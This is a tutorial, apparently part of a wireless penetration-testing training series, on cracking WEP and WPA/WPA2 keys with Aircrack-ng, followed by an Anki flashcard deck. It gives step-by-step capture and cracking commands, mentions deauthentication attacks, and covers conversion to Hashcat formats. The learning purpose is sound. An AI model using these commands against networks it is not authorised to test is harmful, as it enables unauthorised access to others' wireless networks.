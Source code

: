 # Chain #6: Cracking Keys

This chain covers how to use **Aircrack-ng** to crack WEP and WPA/WPA2 keys once you’ve already captured the necessary packets (IVs or handshakes). The process is fully offline: no live interaction with access points after capture.

---

## Step 1: Benchmarking Your System

Before cracking, test CPU performance to estimate cracking speed.

```bash
aircrack-ng -S
```
- `-S` → Benchmark mode, tests key-cracking speed.
- Output: keys/second rate (k/s). Higher is better.

**Why this matters**: Cracking WPA with a large wordlist can take hours/days. Knowing your system’s speed lets you plan accordingly.

---

## Step 2: Cracking WEP Keys

### 2.1 Capture IVs with Airodump-ng

WEP cracking depends on Initialization Vectors (IVs). You need thousands to succeed.

```bash
airodump-ng --ivs -w capture wlan0mon
```
- `--ivs` → Save only IVs (smaller file size, faster analysis).
- `-w capture` → Output file prefix.

### 2.2 Run Aircrack-ng with Korek Method

```bash
aircrack-ng -K capture.ivs
```
- `-K` → Use Korek WEP attack (collection of statistical cracking methods).
- `capture.ivs` → File containing IVs.

**Output**: Displays tested keys until WEP key is found.

**Scenario Note**:
- If you don’t have enough IVs, combine with Aireplay-ng ARP injection attacks to speed up IV generation.

---

## Step 3: Cracking WPA/WPA2 Keys

### 3.1 Capture a Handshake

Use Airodump-ng to capture the WPA 4-way handshake.
- Deauthentication attacks with Aireplay-ng help force clients to reconnect, generating the handshake.

```bash
airodump-ng -c <channel> --bssid <AP_MAC> -w capture wlan0mon
```
- `-c <channel>` → Stay on target channel.
- `--bssid <AP_MAC>` → Lock on specific AP.
- `-w capture` → Save packets.

Look for `WPA handshake: <BSSID>` in top-right corner of output.

### 3.1b Extract for Hashcat (mode 22000)

```
# Extract WPA handshake/PMKID into Hashcat's 22000 format
hcxpcapngtool -o hackme.22000 hackme-01.cap
```
- Produces a `.22000` file for `hashcat -m 22000`. Faster/cleaner than older formats.
### 3.2 Run Aircrack-ng with Wordlist

```bash
aircrack-ng capture.cap -w /path/to/wordlist.txt
```
- `capture.cap` → File with captured handshake.
- `-w /path/to/wordlist.txt` → Dictionary file with possible passwords.

**Scenario Notes**:
- WPA cracking requires a wordlist. Pure brute-force (all combinations) is impractical.
- If handshake is partial (missing packets), Aircrack-ng may still crack if it has packets 2+3 or 3+4.

### 3.2b Legacy: convert to HCCAPX for Hashcat (mode 2500)

```
# Legacy export for Hashcat mode 2500 (.hccapx)
aircrack-ng capture.cap -J hackme
# -> hackme.hccapx (use: hashcat -m 2500 hackme.hccapx /path/to/wordlist.txt)
```
- Useful when following older guides that still expect `.hccapx`.
### 3.3 PMKID-Based Cracking (Alternative)

Some WPA networks allow PMKID extraction without clients.

```bash
aircrack-ng capture.cap -w /path/to/wordlist.txt
```
- Works the same way if capture contains PMKID.

---

## Step 4: Verifying the Key

Once a key is found, Aircrack-ng will display:
- **KEY FOUND! [ password ]**
- Derived Master/Transient keys

You can then test it by connecting to the network (see Chain #7).

---

## Anki Deck:

```
#separator:tab
#html:true
#guid column:1
#notetype column:2
#deck column:3
#tags column:6
n1A2b3C4d5	Basic	Ops::WiFi Gym::Chain 6: Cracking Keys	What is an Initialization Vector (IV) in WEP cracking?	A per-packet random value used with the WEP key. Collecting many IVs allows statistical attacks to recover the WEP key.	wifi
f6G7h8I9j0	Basic	Ops::WiFi Gym::Chain 6: Cracking Keys	What is a WPA 4-way handshake?	An authentication exchange between client and AP that confirms both know the pre-shared key and generates encryption keys.	wifi
k1L2m3N4o5	Basic	Ops::WiFi Gym::Chain 6: Cracking Keys	What is a PMKID in WPA/WPA2 networks?	A Pairwise Master Key Identifier that can be captured directly from the AP without a client, enabling offline cracking.	wifi
p6Q7r8S9t0	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What does the <code>-K</code> option do in Aircrack-ng?	Invokes the Korek statistical attacks for WEP key recovery.	wifi
u1V2w3X4y5	Basic	Ops::WiFi Gym::Chain 6: Cracking Keys	Why is WPA cracking wordlist-based instead of statistical like WEP?	WPA uses strong per-session key derivation (PBKDF2 with SHA1) that cannot be cracked statistically; only dictionary attacks are feasible.	wifi
z6A7b8C9d0	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What Aircrack-ng command benchmarks cracking speed?	<code>aircrack-ng -S</code>	wifi
e1F2g3H4i5	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What Airodump-ng command captures only WEP IVs?	<code>airodump-ng --ivs -w capture wlan0mon</code>	wifi
j6K7l8M9n0	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What Aircrack-ng command cracks WEP IVs with Korek attacks?	<code>aircrack-ng -K capture.ivs</code>	wifi
o1P2q3R4s5	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What Airodump-ng command captures a WPA handshake for a specific AP?	<code>airodump-ng -c &lt;channel&gt; --bssid &lt;AP_MAC&gt; -w capture wlan0mon</code>	wifi
t6U7v8W9x0	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	What Aircrack-ng command cracks a WPA handshake with a wordlist?	<code>aircrack-ng capture.cap -w /path/to/wordlist.txt</code>	wifi
hN2cR7yWpK	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	Which command extracts WPA/PMKID material into Hashcat's 22000 format from <code>hackme-01.cap</code>?	<code>hcxpcapngtool -o hackme.22000 hackme-01.cap</code>	wifi
zT5uL1aGxD	Basic (type in the answer)	Ops::WiFi Gym::Chain 6: Cracking Keys	Which Aircrack-ng option exports an <code>.hccapx</code> file for Hashcat legacy mode 2500?	<code>-J</code> (e.g., <code>aircrack-ng capture.cap -J hackme</code>)	wifi
```
